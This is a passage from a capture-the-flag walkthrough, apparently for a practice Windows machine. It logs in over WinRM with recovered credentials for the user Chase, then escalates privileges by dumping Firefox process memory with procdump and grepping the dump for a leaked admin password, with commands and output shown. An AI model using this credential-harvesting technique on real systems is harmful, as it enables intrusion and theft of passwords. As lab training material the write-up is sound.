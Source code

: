 Now let's use `evil-winrm` to login.

```terminal
$ evil-winrm -i 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
*Evil-WinRM* PS C:\Users\Chase\Documents> 

```

## **Privilege Escalation**

On `chase`'s desktop we found the following `todo.txt` file

```terminal
*Evil-WinRM* PS C:\Users\Chase\desktop> cat todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

The first one is very interesting and it informs us that `chase` is checking the issues page we saw earlier periodically.

And checking on the running process, we see multiple firefox instances

![](4.png)

So we can safely assume that `chase` is using firefox to check on the issues page.

Now we upload a copy of `procdump.exe` from `sysinternals tools` and create a dump file of the firefox process hoping that we might find login credentials `chase` uses to login.

![](5.png)

We got a file, now we download it to our machine and inspect it.

```terminal
 $ strings firefox.exe_230511_140735.dmp | grep -i login
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

```
